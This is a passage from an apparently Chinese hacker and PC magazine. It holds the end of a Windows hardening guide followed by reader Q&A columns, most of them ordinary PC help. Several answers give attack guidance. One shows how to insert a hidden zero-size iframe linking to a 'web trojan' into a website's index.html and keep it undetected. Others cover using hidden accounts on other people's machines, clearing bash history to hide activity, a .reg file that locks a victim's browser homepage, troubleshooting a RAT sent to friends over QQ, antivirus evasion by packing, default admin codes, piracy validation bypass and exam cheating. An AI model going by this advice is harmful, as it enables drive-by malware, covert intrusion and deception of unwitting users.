可移动磁盘病毒目前越来越疯狂，很多网吧、学校等都禁止了 USB 接口的使用。刀子并没有错，错的是拿刀杀人的人，我们该如何防范这个杀人的行凶者呢？

#### 1．打开磁盘方法多

- 在“开始”菜单上点右键，选择“资源管理器”，通过资源管理器来浏览磁盘。
- 在网吧中禁止使用右键，还可以打开 IE 浏览器，在“文件”菜单中选择“打开”，单击“浏览”，通过 IE 浏览器来访问移动存储设备。
- 使用第三方工具，比如 SYSCHECK 来浏览磁盘，运行 SYSCHECK，单击“文件浏览”就可以了。使用类似工具还可以随时查看到移动存储设备中是否有 autorun.inf，可以说非常方便。


图8

#### 2．禁止自动播放

- 使用组策略禁止自动播放
- 使用注册表禁止自动播放

在“开始”——“运行”栏输入 gpedit.msc 来打开组策略，找到“计算机配置”——“管理模板”——“系统”，将右侧的“关闭自动播放”设置为“已启用”，如图8。

在“开始”——“运行”栏输入 regedit 来打开“注册表编辑器”，找到 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer，将 NoDriveTypeAutoRun 的值设置为“157”（十进制）或者 9D（十六进制），这样就将本地驱动器的自动播放禁止掉了，大家记住这个数值就可以了，想知道为什么的话可以到 BAIDU 或 Google 里去查找答案，限于篇幅这里不再赘述。

### 四、Windows 安全第四步——金蝉脱壳使用虚拟“防火墙”

虽然说机器狗病毒的泛滥让我们感觉到了还原卡的脆弱，但是安全是相对的，使用还原卡、影子系统、安装虚拟机，就像蜜罐系统一样，它会在最甜蜜的时候给入侵者以最痛苦的回忆。

还原卡我们可以去电脑城购买，或者通过网络进行购买；在安装前，请确保系统已经安装完毕必要的软件。设置的时候我们一般只设置对系统盘进行还原，使用过程中要注意将 IE 的收藏夹、我的文档等目录改为还原卡无法还原的磁盘中。如果误装新的程序，可以在开机启动时按快捷键启动还原卡设置，还原则可取消还原。

对于影子系统或者虚拟机，在以前的文章中都曾经详细地介绍过，网上也有详细的教程，这里不再赘述。

### 五、Windows 安全第五步——做好备份乐享网络

备份是我们经常忽略的一个地方。下面来做简单的总结。

- 备份操作系统

当系统大量安装补丁或者更新应用程序后，及时地使用 ghost 对系统进行备份，备份系统之前请先保证当前计算机系统处于相对安全的状态。

- 注册表的备份

在“开始”→“运行”栏输入 regedit 打开注册表编辑器，在“文件”菜单中，选择“导出”，当系统出现问题时直接导入就可以解决很多问题。同样需要及时更新备份的注册表文件。

- 将系统 EXE、DLL 文件进行登记

Windows 操作系统在我们登录的时候会将我们输入的登录信息与 SAM 数据库中的信息进行比较，如果完全正确才会启动 explorer.exe 进程。病毒木马文件毕竟是外来的程序，要想最快得知它们进入了系统，必须及时地将系统内的 EXE、DLL 文件进行登记。将如下代码保存为 dengji.bat 文件。

```bat
@echo off
for /f "skip=1" %%i in ('wmic logicaldisk where "drivetype=3" get caption') do @dir /s /a "%%i\*.dll">>dll0.txt
for /f "skip=1" %%a in ('wmic logicaldisk where "drivetype=3" get caption') do @dir /s /a "%%a\*.exe">>exe0.txt
```

当系统出现异常时，我们只要将如下的批处理代码保存为 change.bat，运行看看多出了哪些 exe 和 dll 文件就行了。

```bat
@echo off
for /f "skip=1" %%i in ('wmic logicaldisk where "drivetype=3" get caption') do @dir /s /a "%%i\*.dll">>dll1.txt
for /f "skip=1" %%a in ('wmic logicaldisk where "drivetype=3" get caption') do @dir /s /a "%%a\*.exe">>exe1.txt
fc dll1.txt dll0.txt >change.txt
fc exe1.txt exe0.txt >>change.txt
notepad change.txt
```

看上去方法不错哦，但是我们很多时候都会下载、删除某些文件，这就牵涉到了让 dll0.txt 和 exe0.txt 随时更新的问题。我们可以将 dengji.bat 和 change.bat 添加到右键菜单中，以实现随时更新系统新增文件和进行文件比较。以 dengji.bat 为例，将如下代码保存为 1.reg。

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\Directory\shell\copy]  // copy 子键可以自己在 shell 键下建立自己喜欢的名字
@="!更新 dll&exe 备份"  // copy 子键的默认设置，可以设置自己喜欢的名字

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\Directory\shell\copy\command] // command 名字不可以改而且只能在 copy 子键下
@="c:\\1.bat"  // 这里更改为自己批处理存放的位置
```

双击将 1.reg 导入注册表就会出现如图9所示的右键选项了。我们需要注意的，就是对于隐藏文件的问题，有时候我们即便将“我的电脑”→“工具”→“文件夹选项”中的“显示所有文件和文件夹”、“隐藏受保护的操作系统文件（推荐）”前边的勾去掉，还是查找不到隐藏的文件；所以在运行上面的批处理前，我们还需要进行一些特殊的设置。

打开注册表编辑器，找到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL，将 CheckedValue 的值设置为 0，这样才可以保证完全隐藏的文件得到记录。


### 六、Windows 安全第六步——常规技巧整理

通过上面的设置，我们的系统基本上就算是安全了，但掌握常规的反黑技巧还是非常有用的。

#### 1．中毒后文件关联问题解决

当系统中毒或者中木马，exe 文件不能执行该怎么办呢？这是常见的中毒症状。

- 将可执行文件的后缀名改为 `.bat`、`.com`、`.cmd`，必要时可改为 `.pif` 后缀。
- 通过 IE 间接运行 `cmd`，再执行文件关联修复命令。

```cmd
assoc .exe=exefile && ftype exefile="%1" %*
```


#### 2．进程管理

- 需要熟悉常见系统进程，例如 `winlogon.exe`、`lsass.exe`。
- 任务管理器可能被伪装进程迷惑，应核对可执行文件路径。
- 使用工具查看进程对应模块与 DLL。

```cmd
wmic process where creationclassname="win32_process" get caption,executablepath
```

文中推荐使用 Sysinternals 的 Process Explorer 观察进程及其加载的 DLL，并通过搜索功能定位可疑模块。


- 服务管理：可在“开始→运行”输入 `services.msc` 查看服务，并结合 WMIC 导出服务信息。
- 文件检测：对下载文件和运行过程进行监测，可借助 `filemon`、`regmon` 等工具。

```cmd
wmic service where creationclassname="win32_service" get caption,description,pathname>services.txt
```

学习并应用上述技巧后，可更好地识别木马与病毒行为，配合可靠杀毒软件和实时监控提升系统安全性。

> （本文所涉及到的 Filemon、Regmon、Process Explorer 已收录到光盘中）

## 般莫梧桐


我在同一个空间里传上了另外一个网站的 index.html 文件，并且编辑了这个文件，尝试把挂马代码加在其中，请问我这样可以收到信吗？……将网马的执行代码插入网页文件里的时候有什么基本规则？比如：

```html
<html>
<iframe src="http://XXXX.YYYY.net/Cx.html" width="0" height="0" frameborder="0"></iframe>
<html>
```

**答：**主要看你的网马存放空间是否稳定、会不会被杀；代码不一定要 `<html>iframe</html>` 这种完整标签，只要 iframe 代码段即可。最好插入结尾或开头，不要插入其他函数段内，关键在于隐蔽，不让别人察觉。

**问：**影子系统是不是“还原精灵”一类？启动后安装游戏或下载资料，下次开机就没有了？

**答：**影子系统可以保护全盘也可保护单盘；不想保护时可不启动。想保护系统盘选“单一影子模式”；想保护全部选“完全影子模式”。

**问：**第12期介绍的溢出漏洞，利用工具填外网 IP 即可，还是要做端口映射？

**答：**应填写能连接到你的端口；局域网内可直接监听本机端口，若在内网且需外网主机访问，则要做端口映射。

**问：**在别人电脑上设置隐藏账户，可开机时只有 administrator 登录输入框，如何用隐藏账户登录？

**答：**连续按两次 `Ctrl+Alt+Del`，出现类似 Win2000 登录界面后输入用户名和密码即可。

**问：**如何在 Linux 下清除操作信息记录？

**答：**终端和文本模式操作会留下命令历史；图形界面也会记录最近访问文件。常见隐藏文件为 `.bash_history` 和 `.recently-used`，清理可减少记录。

```bash
>/root/.bash_history
>/root/.recently-used
```

这样每次开机时就会自动清空这两个文件，从而清除以上操作记录。

**问：**系统隐藏账号建立后，重启电脑会在本地用户和组里显示，查看列表里却看不出来，是补丁问题还是操作错误？

**答：**Win2003 的相关漏洞已被修复，只能克隆；隐藏后会在重启后显示出所有账户。

**问：**如何取消单击鼠标时系统的咔咔声？

**答：**控制面板 → 声音和音频设备 → 声音 → 声音方案，改成自己喜欢的或关闭。

**问：**申请设置第二代 DNA（QQ 密码保护）多次失败，如何成功？

**答：**腾讯策略调整后，需通过预设流程升级。

- 登录 QQ 密保相关页面。
- 点击“升级为第二代密码保护”。
- 进入证据资料填写界面，按要求填写历史密码等关键信息。
- 进入预设 DNA 界面并完成设置。
- 等待短信确认是否预设成功，失败可稍后重试。

**问：**如何判断 QQ 号码申诉地址真伪？

**答：**可参考个人资料好友关系、QQ 交友中心、QQ 校友录等线索综合判断。

- 依据 QQ 本人的个人资料和好友关系判断。
- 参考 QQ 交友中心：`http://love.qq.com`。
- 参考 QQ 校友录：`http://school.qq.com`。

答：我们以打开 C 盘为例，在 CMD 命令提示符下输入命令 `c:\windows\Explorer c:\` 或 `start c:\` 就可以了。

问：对于第一期杂志“轻松突破 ATA 考试认证系统的限制”一文中提到的记事本工具 oath，在这个记事本工具里好像只能另存为一般的文本文档，我不知道这样和普通的文本文档会不会有什么区别？在 ATA 公司那个考试系统下，那个工具下另存为的文本文档还能打开吗？

答：这个记事本工具是用来置顶用的，可以显示在考试系统上面。你用这个记事本保存了文本，直接打开文本是默认调用系统的记事本工具，没有置顶功能。但你可以先打开这个工具，然后在这个工具中打开你保存的文本，就能看到答案了。

问：如何为文件夹添加背景音乐？

答：在文件夹空白处单击鼠标右键→自定义文件夹→选择“创建或编辑 HTML 文档”，单击下一步，系统会自动弹出使用记事本打开的 Folder.htt 文件。在文件中找到 `<body scroll=no>` 这段代码，在下面加入 `<bgsound src="file://F:\音乐天地\水木年华\一生有你.wav" loop=1>`。`loop=1` 表示播放一次，`-1` 表示循环播放。接下来保存文件并退出编辑状态，在该文件夹下按 F5 刷新即可听到音乐。建议使用 WAV 格式，若使用 MP3 需先转换。

问：电脑无法启动显示器显示黑屏，开机就发出嘀嘀的声音，是软件问题还是硬件问题，怎么解决？

答：最有可能是内存问题，可能是接触松了。若长时间未使用，内存可能被氧化，把卡拔下后擦拭金手指再插上通常可恢复正常。

问：我在家中用来上网的电脑是一台二手网吧电脑。三星 160G 移动硬盘有时能读出文件，但复制过程中盘符消失；再插入能显示盘符，但目录损坏且无法读取，重格式化后可用，但还是反复出现。

答：估计是 USB 接口供电不足。建议把移动硬盘接到其他电脑测试；若其他电脑正常，基本可判定为本机供电不足。可购置专门给移动硬盘供电的电源设备。

问：tmp 文件是什么东西，怎么每次保存文档都会出现？

答：TMP 是临时文件格式，本质类似虚拟内存的工作文件。比如 WORD 安装目录中的临时文件，常以 `~` 开头、以 `.TMP` 结尾，多为读写保护。使用 WORD 时不要随意删除；若异常关机，下次启动 WORD 可能依靠这些临时文件恢复最近保存结果，这也是 WORD 文档恢复机制的一部分。

问：我的 WINDOWS 系统欢迎屏幕被禁用了，提示“一个最新安装的程序已停用欢迎屏幕和快速用户切换，你必须卸载该程序以恢复这些功能，下列文件名可以帮你识别该程序所做的修改：tvt_gina.dll”。

答：
- `MyGina.dll` 是某些屏蔽 GINA 的文件（GINA 是 Winlogon 用于认证的 DLL）。可在系统目录和 `Windows\System32` 查找并删除该文件，然后在注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon` 下删除 `GinaDLL`，重启电脑。
- 确认是否安装了与登录系统有关的软件，先卸载；更新杀毒和木马查杀软件，在安全模式下查杀。打开“控制面板→管理工具→服务”，找到 **Fast User Switching Compatibility** 服务，属性中将启动方式设为自动。

问：打开 D 盘，系统让我选择打开方式（打开程序），应该选择哪个？

答：哪个都不选。通常是磁盘打开关联被病毒破坏。可在命令提示符下清除 D 盘中的 `autorun` 文件恢复。也可使用 `autorun` 查杀/免疫工具，既清除病毒又修复关联。

问：使用 WINRAR 压缩时有压缩程度选项（最大、标准、最小），最大和最小区别是什么？最小会不会影响质量？

答：WINRAR 常见方式有“存储、最快、快速、常规、较好、最好”。“最好”压缩率最高但最慢；“存储”几乎不压缩。压缩不会影响文件内容质量，只影响体积和耗时。长期存档可选“较好/最好”，日常备份可选“常规”。

问：我在登录网站后台时，要求输入“管理认证码”，没有的话就无法进入。这是什么？和验证码一样吗？

答：不一样。管理认证码相当于管理员二级密码，常见做法是不存数据库，而写在如 `Admin_ChkCode.asp` 等文件中。即使拿到管理员账号密码，没有认证码也无法登录；若管理员未修改，可能可尝试默认认证码。

问：我运行一下游戏就出来了六个 Conime.exe 进程，刚开始只有一个，后来慢慢加到六个，它们都占内存 80K。

答：`Conime.exe` 是命令提示符下中文输入相关进程，通常存在一个属正常；若出现多个，建议检查系统是否中毒。

问：有些电子书打开后里面的文字不让复制，只能看，有什么办法把里面部分文字复制下来吗？

答：有些电子书可通过打印页面后在系统临时文件夹中找到页面（常为 html）再复制。不能打印时可截图后 OCR 提取文字；例如可用 Microsoft Office 2003 的 `Microsoft Office Document Imaging` 组件识别图片文字。若整本都受限，可能需要反编译电子书。

问：我玩 CS 的时候，有时会弹出内存不能为 read，打开某些网站也出现内存不能为 read，这是怎么回事？

答：这类问题通常是硬件不兼容导致，多见于内存条混插（不同品牌或型号）引发。

## 藏宝典桐

**问：** 迅雷和 web 迅雷有什么区别啊？

**答：** 迅雷 5 是传统下载工具，web 迅雷是网页形式下载工具；web 迅雷可智能命名、边下边播、下载速度优化，并提供更多个性化皮肤与操作功能。

**问：** 以前不用路由器不掉网，现在用路由器同时两台电脑上网时，一打电话就掉网，这是怎么回事？

**答：** 需检查分频器和接口连接，电话分机应接到分频器出口；未正确分频会出现杂音并导致宽带中断。

**问：** VBS 和 VB 之间联系大吗？直接学 VBS 可以吗？

**答：** VBScript 是 Visual Basic Script，属于微软脚本语言，可视作 VB 简化版本；易学、跨平台性好，常用于网页 ASP 程序制作，也可独立执行，适合入门。

**问：** 开机后需要点击自己的账户图标（欢迎屏幕），没设密码，这对保护电脑有好处吗？

**答：** 可在控制面板-用户账户中关闭欢迎屏幕；该功能保护作用有限，且可能泄露用户信息。

**问：** 新建 WORD 文档常放桌面，之后忘记移动，想避免该问题怎么办？

**答：** 在 D 盘建常用文件夹并发送“桌面快捷方式”，以后保存到该快捷方式对应文件夹中，更方便安全。

**问：** 网银证书导出到 U 盘后，如何保证安全？

**答：** 可用 WinRAR 打包并加长密码，再改扩展名等方式增强保护；密码需复杂且不易被猜测，不建议依赖来历不明的网络加密软件。

**问：** 由于 BIOS 时间错误，文件创建时间都变成 2018 年 8 月 8 日，有影响吗？

**答：** 会影响部分程序运行，建议改正系统时间并检查/更换 CMOS 电池。

**问：** 现为 Windows XP，想重装 Ubuntu；电脑可能中毒，是否应先重装 Windows 再装 Ubuntu？

**答：** Linux 通常不易受 Windows 病毒影响，可在 Linux 下处理后再决定是否重装；若要重装双系统，需提前备份 GRUB 引导配置，重装 XP 后再恢复 GRUB。

**问：** 在 2000 和 XP 下，如何把共享隐藏？

**答：** 可在“资源管理器”中找到共享文件夹并设置共享属性，在“共享名”后加 `$` 实现隐藏；隐藏后可通过地址栏输入路径访问。

- 右键共享文件夹，进入“属性”-“共享”。
- 在“共享名”后添加 `$`。
- 确认后完成设置；通过已知路径可访问。

**问：** 打算学 ASP.NET（偏 WEB 开发），该用什么教材？有电子版吗？

**答：** 先补 C# 语言与 .NET 基础，再读《ASP.NET 入门经典》等资料；有中文版本与电子版可查。

```text
regsvr32 /n /i:u shell32
```

**问：** 快速启动栏的“显示桌面”图标被删，如何恢复？

**答：** 在“开始-运行”输入上述命令可恢复“显示桌面”图标。

**问：** 如何把所有文件夹中的图标详细信息变为平铺，并应用到所有文件夹？

**答：** 在“工具-文件夹选项-查看”中将当前视图设为平铺并“应用到所有文件夹”，其他类型文件夹也可类似设置。

**问：** 网站做了优化后，之前在 Google/Baidu 排名前列；新站提交很久仍搜不到，`site:www.****.cn` 为 0，怎么办？

**答：** 可能处于搜索引擎考察期或收录延迟；需持续更新和维护，并排查服务器历史与页面优化问题（如关键词堆砌、隐藏文字、违规内容等）。

- 百度新站收录通常有考察周期，短期 `site` 为 0 不一定异常。
- Google `site` 为 0 需检查是否存在优化漏洞或历史惩罚。
- 排查重点：服务器/IP 历史、关键词密度、隐藏文本、非法内容。
- 保持正常更新，健康新站可较快被收录。
- 你可以通过一个大型站点的网站，在首页做个链接，一般一天内会被收录。

**问：** 在办公室更换了 QQ 头像等 QQ 业务，为什么在家里就不能显示更换后的呢？别人那里会显示得到吗？

**答：** 可能是 TM 和 QQ 版本差异或家里更新时间问题。可在 QQ 个人设置里更新资料；别人那里一般会在你更换后看到。

**问：** 比如我在东莞，QQ 头像上显示了东莞，可我不想让别人知道，怎样隐藏？

**答：** 打开 QQ 菜单 → 设置个人设置 → 状态显示，关闭“显示我的地理位置”。

**问：** 我配置的鸽子在自己电脑可运行，怎么用 QQ 发出去后不能上线，朋友说文件打不开？

**答：** 常见是 QQ 传送时扩展名被改名，导致文件无法运行，故提示打不开。

**问：** 我做了网页（1280×800），为何别人打开效果与我电脑不同？

**答：** 表格宽度用了绝对像素值，改为相对百分比即可。

**问：** 会员 3 阶段，去年把书签点亮了很久，今天突然灭了，还能点亮么？

**答：** 以前会员可免费点亮 QQ 图书图标，活动已结束；目前点亮需付费（文中示例：5 元，book.qq.com）。

**问：** 寻求能够锁定别人主页的程序。

**答：** 把下面代码保存为 REG 文件给别人运行。

```reg
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]
"Start Page"="http://www.xxxx.com"
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel]
"HomePage"=dword:00000001
```

**问：** 我 IE 已经安装了 Adobe Flash Player，为什么不能播放 flash？

**答：** 可按以下步骤排查。

- 在 IE“工具→Internet 选项→高级”中，启用“多媒体→播放网页中的动画”。
- 检查是否有 BanActive 等程序禁用了 flashplayer 的 ActiveX（可用 `regedit` 检查）。
- 在 Internet 选项“安全→自定义级别”里启用 ActiveX 控件和插件。
- 修复 IE（如用优化大师、雅虎助手等）。
- 删除 `C:\WINDOWS\system32\Macromed\Flash` 目录后重装 Flash Player。

**问：** 如何将桌面文件图标改成自己想要的样子？

**答：** 系统图标可在“桌面属性→自定义桌面→更改图标”；普通文件可右键属性修改；自制图片需转换为图标格式。

**问：** USB 设备为什么要安全退出？

**答：** 安全退出是通知系统断电并完成缓存写入；强行拔出可能造成数据损坏。U 盘通常有一定保护但不绝对。

**问：** win2000 服务器装 SQL 后，远端连接成功但只能 IP 连接，不能机器名连接，哪里设置有问题？

**答：** 机器名更适于局域网；互联网常用域名/IP。可给电脑注册域名，再以“机器名”方式访问。

**问：** 别人发来 PPT 资料，怎么打不开？用什么软件？

**答：** PPT 是文件格式，对应程序是微软 Office 中的 PowerPoint。

**问：** 如何把 QQ 表情导入 MSN？

**答：** 在 QQ 安装目录（如 `C:\Program Files\Tencent`）和号码目录下找 `CustomFace` 文件夹，可导入 MSN；注意小尺寸微缩表情可能不适合导入。

**问：** 建好 VPN 服务器后，客户端能连上，但服务器任务管理器里看到 RAS SERVER 速率只有 28K，如何调带宽？

**答：** Windows VPN 服务器默认一般不限制带宽；28K 可能是用户接入速率或网络上行限制，也可能是防火墙/其他设备限流。

**问：** 怎样把 QQ 空间最近来访者名字去掉？

**答：** 通常没有很好办法，这是系统自动记录；可尝试隐藏该模块，自己后续可再恢复。

**问：** 我刚开通了超级 QQ，10 元/月，我知道别人给我发不卖钱，我给别人发要钱吗？我听说每月送出 300 条，超过了要收费，是这样吗？还有啊，怎样把超级 QQ 设置为自动登录，就是我从电脑上下线后，手机自动登录。

**答：** 你说的 300 条短信应该是短信超人。超级 QQ 你第一次登录前必须修改偏好、下线时间，以后每次到点会自己上下线，和 QQ 聊天也是通过发送短信。

## 瘸裘梧桐

**问：** 我加了一个普通的 QQ 群，之后每天发图好像只能发三张，就提示不是会员不能无限发，我想问下，如果我要是花 10 块钱办个普通的会员，能不能在 QQ 群里面无限发图片？

**答：** 会员的确可以无限发图片，如果你的图片太大不能放到表情里，也只能发“发表图片”功能。既然想无限发图就申请会员吧。

**问：** 这几天想在电脑上装个 Turbo C 2.0，但下了好多都用不了，老出现“nbk error: unable to find input file 'cos.obj'”。在百度知道里查了一下，说是路径有问题，修改路径还是出现，直接装在 C 盘还是出现这个问题，听说 Turbo C 2.0 是在 DOS 下运行的，不知道是不是和我的电脑里没装 DOS 系统有关啊？

**答：** 与 DOS 没关系，如果是 XP 系统直接就可以用。一般的 Turbo C 2.0 是解压出来后把路径改成文件所在的位置就 OK 了，具体方法是：运行程序后按键 F1，F12 里设置。

**问：** 外网的 IP 和内网的 IP 有什么不同？

**答：** 外网 IP 是网络运营商直接分配给你的 IP，常是动态 IP。比如上 QQ 时看到别人的 IP 地址如：  
广东省中山市 电信  
121.12.225.47:4005  
其中 121.12.225.47 就是它的外网 IP，直接分配的，题外话 4005 是 QQ 的端口。

内网的 IP 是指外网通过路由器再分散出一台或一台以上的局域网，这当中的每一台机子上的 IP 都是由路由分配的，一般都是 192.168.1.(1-255)。这种私有 IP 在互联网上是无法识别的。你们显示给外面的机子的 IP 都是同样的外网 IP（当然个别机器用了代理就另当别论）。

**问：** 昨天找到一款报毒的黑客工具（报毒是风险程序），我改了特征码，修改后查杀不了。可是加了一个 UPX 壳就被杀，怀疑是 UPX 的问题，又加了另外一款 PECompact 壳又报毒，晕死，将记事本加了 UPX 却不报毒。

**答：** 有的杀毒软件查杀的时候是这样的：分析壳类型，利用“宽长度 + 固定长度”（看杀软不同而不同）作为病毒特征码，所以被杀一点也不神奇。有的杀毒软件针对不同壳，用的特征码不同而已。

**问：** 任务栏下的小电脑显示网线一断一断的，不知道是怎么回事？断开网络还是一断一断的，可实际上网线连接得挺好，不知道是什么原因？

**答：** 这样的问题大部分在网线或者水晶头上。网线的 8 根里，实际上用到传递数据的只有 4 根，1、2 与 3、6。用 8 根交叉可以减少辐射干扰，这也是网线为什么叫双绞线的原因。

网线 8 根里有用来传输数据的，有用来校验数据的，有备用的，在不是数据传输的时候 8 根线都在运作。RJ45 水晶头是标准网线用，内容 8 条线为 5 类 4 对双绞线。正常情况下 4 条线工作，按 568A 标准制线，只要橙、蓝、绿、棕 4 色接通就可以使用。

其中 1 输出数据、2 输出数据、3 输入数据、4 保留为电话使用、5 保留为电话使用、6 输入数据、7 保留为电话使用、8 保留为电话使用。所以可能是 1、3 中的某根线接触不良。

**问：** 老提示系统没有通过 XP 正版验证怎么办？

**答：** 在安全模式下将 `WINDOWS\SYSTEM32\` 目录下的 `WgaTray.exe` 文件删除就 OK 了，或者使用“XP 序列号自动更换器”。

**问：** 我的是 XP 的系统，最近不知道怎么搞的，一开机屏幕上就显示一些英文，在下方显示“press F1 to continue, DEL to enter SETUP”。

**答：**
- 把 BIOS 恢复默认设置看看。
- BIOS 电池电量不足，更换电池。
- 重启电脑按 DEL 键进 BIOS，找到 `boot up floppy seek`，把这个设置为 `disable`，按 F10 保存退出。

**问：** 我在使用快车下载文件时，最近经常出现下载到 99% 时报“超时”的错误提示而停止下载，请问这是什么原因，应该如何解决？

**答：** FlashGet 的最新版更新中提到修改了这个错误，实测中我们发现到“99%”时还是有少许停滞。出现这样的情况有以下两种原因：一、磁盘剩余空间不足；二、杀毒软件查杀病毒出现中断现象。这时，可以尝试先终止出现超时现象的任务，然后再重新启动此任务。在使用快车下载大文件时，尽量避免将下载文件保存到剩余空间小的磁盘分区。另外，如果是由于杀毒软件引起的故障，可以暂时终止病毒查杀，等下载完毕后，手工查杀病毒。

**问：** 我的工商银行网上银行的注册手机号现在停用了，我想更换为新的手机号码，以便于进行相关交易时能及时收到短信通知。请问，如何才能更换网上银行的注册手机号码呢？

**答：** 打开并登录工商银行网上银行页面，依次点击“客户服务/客户信息管理/查询修改客户信息”，在打开的页面中即可进行修改操作了。

**问：** 我试了几款远程控制软件，但只要将其下载到系统中，甚至在安装时就会被系统中的杀毒软件、防火墙拦截掉。请问，如何才能不让杀毒软件、防火墙软件阻止我选择的远程控制软件？

**答：** 其实，阻止远程控制软件是杀毒软件、防火墙软件的本能，大多数远程控制软件都会受到阻止。你可以在杀毒软件、防火墙中将你所选择的远程控制软件排除查杀即可解决问题。如果你选择 pcAnywhere 这款远程控制软件，则不会受防火墙、杀毒软件的阻止了。

**问：** 怎样清除忘记的 CMOS 口令？

**答：**
- 快速短接主板上 CMOS 供电电池附近的“Clear CMOS”跳线。
- 如果机器能启动进入 DOS 或 Windows，可以试按以下步骤清除 CMOS：

```text
C:\>DEBUG
-o 70 11 4
-o 71 ff
-q
然后，启动机器。
```